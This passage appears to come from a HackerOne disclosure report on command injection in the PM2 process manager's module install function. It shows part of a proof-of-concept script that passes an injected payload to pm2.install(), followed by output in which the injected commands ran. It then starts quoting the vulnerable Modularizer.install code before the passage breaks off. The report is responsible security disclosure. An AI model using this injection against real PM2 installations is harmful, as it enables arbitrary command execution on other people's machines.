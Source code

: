 ```javascript
        script: 'app.js' // fake app.js to supress "No script path - aborting" error thrown from PM2
    }, (err, apps) => {
        pm2.install(payload, {}) // injection
        pm2.disconnect()
        if (err) {
            throw err
        }
    })
})
```

After executing it with `node pm2_exploit.js` command, we get following output:

```
bl4de:~/playground/Node $ node pm2_exploit.js
npm WARN saveError ENOENT: no such file or directory, open '/Users/bl4de/package.json'
npm WARN enoent ENOENT: no such file or directory, open '/Users/bl4de/package.json'
npm WARN bl4de No description
npm WARN bl4de No repository field.
npm WARN bl4de No README data
npm WARN bl4de No license field.

+ test@0.6.0
updated 1 package and audited 3 packages in 0.427s
found 0 vulnerabilities

/Users/bl4de
bl4de
Darwin bl4des-MacBook-Pro.local 18.6.0 Darwin Kernel Version 18.6.0: Thu Apr 25 23:16:27 PDT 2019; root:xnu-4903.261.4~2/RELEASE_X86_64 x86_64
total 224
-rw-r--r--@   1 bl4de  staff      37 Jul  1 22:38 app.js
drwxr-xr-x  237 bl4de  staff    7584 Jun 26 19:52 node_modules
-rw-r--r--    1 bl4de  staff  104809 Jul  2 00:52 package-lock.json
lrwxr-xr-x    1 bl4de  staff      26 Jun 26 20:18 pm2 -> ./node_modules/pm2/bin/pm2
-rw-r--r--@   1 bl4de  staff     522 Jul  2 00:58 pm2_exploit.js
/bin/sh: --loglevel=error: command not found
```

Again, commands injected as a part of npm module were executed successfully.

{F520355}


## Vulnerability Description

Similar to `https://hackerone.com/reports/630227`, the exploitation chain starts in `lib/API/Modules/Modularizer.js` in `Modularizer.install()` function call (I've cut part of the code which is not relevant to the vulnerability):


```javascript

/**
 * PM2 Module System.
 */
Modularizer.install = function (CLI, module_name, opts, cb) {
  if (typeof(opts) == 'function') {
    cb = opts;
    opts = {};
  }

    (...)

  else {
```